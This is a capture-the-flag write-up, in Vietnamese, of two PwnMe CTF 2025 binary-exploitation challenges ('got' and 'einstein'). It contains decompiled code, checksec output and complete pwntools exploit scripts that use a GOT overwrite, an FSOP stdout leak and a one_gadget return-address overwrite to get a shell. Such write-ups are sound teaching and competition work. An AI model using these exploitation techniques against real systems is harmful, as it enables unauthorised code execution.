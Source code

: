 ```yaml
--- 
title: PwnMe CTF Quals 2025
date: 2025-02-16 00:00:00 +0800
categories: [writeup]
tags: [pwn,writeup]
author: "kuvee"
layout: post
---
```


# got

checksec: 

```cs
ploi@PhuocLoiiiii:~/pwn/PwnMeCTF/got/got$ checksec got
[*] '/home/ploi/pwn/PwnMeCTF/got/got/got'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

- main : chương trình rất đơn giản , đầu tiên ta sẽ được nhập 1 idx , tiếp sau đó là nhập dữ liệu vào ```PNJS[idx]```  và nó nằm tại ```0x0000000000404080``` 

```cs
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int idx; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  idx = 0;
  puts("Hey ! I've never seen Game of Thrones and i think i misspelled a name, can you help me ?");
  puts("Which name is misspelled ?\n1. John\n2. Daenarys\n3. Bran\n4. Arya");
  fwrite("> ", 1uLL, 2uLL, stdout);
  __isoc99_scanf("%d", &idx);
  if ( idx > 4 )
  {
    puts("Huuuhhh, i do not know that many people yet...");
    _exit(0);
  }
  puts("Oh really ? What's the correct spelling ?");
  fwrite("> ", 1uLL, 2uLL, stdout);
  read(0, &PNJs[idx], 0x20uLL);
  puts("Thanks for the help, next time i'll give you a shell, i already prepared it :)");
  return 0;
}
```

- rõ ràng đây là 1 bài xảy ra bug ```oob``` , ta có thể ghi idx tiến đến got và ghi vào thứ gì đó để lấy shell và may mắn là có 1 hàm win

```cs
void __cdecl shell()
{
  system("/bin/sh");
}
```

exp: 

```cs
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./got',checksec=False)

#p = process()
p = remote('got-4d27ff88d1920941.deploy.phreaks.fr',443,ssl=True)

p.sendline(b'-4')
input()
p.send(p64(0x401036) + p64(exe.sym.shell))

p.interactive()
```

# einstein

checksec: full giáp

```cs
ploi@PhuocLoiiiii:~/pwn/PwnMeCTF/einstein/einstein$ checksec einstein
[*] '/home/ploi/pwn/PwnMeCTF/einstein/einstein/einstein'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

- handle: đây là hàm chứa dữ liệu chính cần khai thác của bài , đập vào mắt đầu tiên có lẽ là ta có 2 lệnh scanf -> ta có thể ghi tùy ý 2 lần 


```cs
int __cdecl handle()
{
  int offset; // [rsp+8h] [rbp-38h] BYREF
  unsigned int size; // [rsp+Ch] [rbp-34h] BYREF
  unsigned __int64 *wher; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 wat; // [rsp+18h] [rbp-28h] BYREF
  unsigned __int64 *wher2; // [rsp+20h] [rbp-20h] BYREF
  unsigned __int64 wat2; // [rsp+28h] [rbp-18h] BYREF
  void *allocated; // [rsp+30h] [rbp-10h]
  unsigned __int64 v8; // [rsp+38h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  puts("\nHow long is your story ?");
  __isoc99_scanf("%u", &size);
  if ( size <= 0x27 )
  {
    puts("Well... It seems you don't really want to talk to me that much, cya.");
    _exit(1337);
  }
  allocated = malloc(size);
  puts("What's the distortion of time and space ?");
  __isoc99_scanf("%u", &offset);
  puts(
    "Well your story is quite long, time may be distored, but it is a priceless ressource, i'll give you a few words only"
    ", use them wisely.");
  read(0, (char *)allocated + offset, 0x22uLL);
  puts("Everything is relative... Or is it ???");
  __isoc99_scanf("%llu %llu", &wher, &wat);
  __isoc99_scanf("%llu %llu", &wher2, &wat2);
  *wher = wat;
  *wher2 = wat2;
  return 0;
}
```

- và bài này hốc búa ở chỗ là ta không biết bất cứ địa chỉ nào -> sẽ không thể ghi được gì , tuy nhiên để ý lại đoạn ở trên , ta được nhập 1 size và malloc(size) 
- tiếp theo ta được input vào 0x22 vào chunk đó , ở đây ta cần biết khi ta nhập 1 size lớn -> nó sẽ dùng mmap để tạo 1 vùng nhớ cho yêu cầu của malloc() , và vùng nhớ đó nằm dưới ngay libc

- ở đây mình nhập 1 size rất lớn

![here](/kuveee.github.io/assets/images/PWNme2025/1.png)

- và nó nằm ngay dưới libc

![here](/kuveee.github.io/assets/images/PWNme2025/2.png)

- như ta đã nói thì trước hết ta cần biết địa chỉ libc , ở đây ta cần tấn công ```fsop``` , chi tiết thì ta có thể xem ở [here](https://github.com/nobodyisnobody/docs/tree/main/using.stdout.as.a.read.primitive/)  , ở đây mình chọn overwrite ```IO_write_PTR``` bằng byte ```\xff```  hoặc là ta có thể overwrite như link trên cũng được , và may mắn là ta có libc lẫn stack_address  
- lúc đầu mình không leak được stack_address vì phiên bản libc bài cho không giống sever , sau khi build docker và lấy libc lại thì mới leak được stack :)))

- cuối cũng đơn giản là overwrite ```saved_rip``` thành one_gadget thôi , ta có 2 lần ghi nên ta có thể làm cho nó thõa mãn điều kiện của one_gadget

- ở đây mình chọn cái này : 

rax NULL sẵn và ta chỉ cần setup cho ```rbp-0x78``` thôi là được

```cs
0xeb66b execve("/bin/sh", rbp-0x50, [rbp-0x78])
constraints:
  address rbp-0x50 is writable
  rax == NULL || {"/bin/sh", rax, NULL} is a valid argv
  [[rbp-0x78]] == NULL || [rbp-0x78] == NULL || [rbp-0x78] is a valid envp
```

exp: 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./einstein_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

p = process()

p.sendlineafter(b'How long is your story ?\n', str(0x50000).encode())


p.sendlineafter(b"What's the distortion of time and space ?\n", str(0x253790+0x28).encode())


input()
p.sendafter(b'.\n', b'\xff')

p.recv(5)
libc_leak = u64(p.recv(6).ljust(8,b'\x00'))
log.info(f'libc leak: {hex(libc_leak)}')
p.recv(0x92)
leak_stack = u64(p.recv(6).ljust(8,b'\x00'))
log.info(f'leak_stack: {hex(leak_stack)}')
saved_rip = leak_stack - 0x120
log.info(f'saved_rip: {hex(saved_rip)}')
libc.address = libc_leak - 0x2008f0
log.info(f'libc: {hex(libc.address)}')
rbp = saved_rip + 8
og = [0xeb66b,0xeb60e,0x54f53,0x54f4c]

p.sendlineafter(b'Everything is relative... Or is it ???',str(int(saved_rip)) + ' ' + str(int(libc.address+og[0])))
input()
p.sendline(str(int(rbp-0x78)) + ' ' + str(int(0)))

p.interactive()
```